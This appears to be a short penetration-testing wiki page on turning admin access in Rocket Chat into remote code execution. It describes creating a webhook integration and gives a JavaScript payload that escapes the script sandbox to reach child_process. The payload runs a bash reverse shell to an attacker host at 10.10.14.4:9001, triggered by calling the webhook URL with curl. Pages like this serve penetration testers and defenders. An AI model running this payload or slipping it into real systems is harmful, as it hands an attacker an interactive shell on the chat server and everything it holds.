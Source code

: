 # Rocket Chat

## RCE

If you are admin inside Rocket Chat you can get RCE.

- Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  - `/admin/integrations/incoming`

![](../../images/image (266).png)

- According to the [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) like:

```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```

- Configure the WebHook (the channel and post as username must exists):

![](../../images/image (905).png)

- Configure WebHook script:

![](../../images/image (572).png)

- Save changes
- Get the generated WebHook URL:

![](../../images/image (937).png)

- Call it with curl and you shuold receive the rev shell

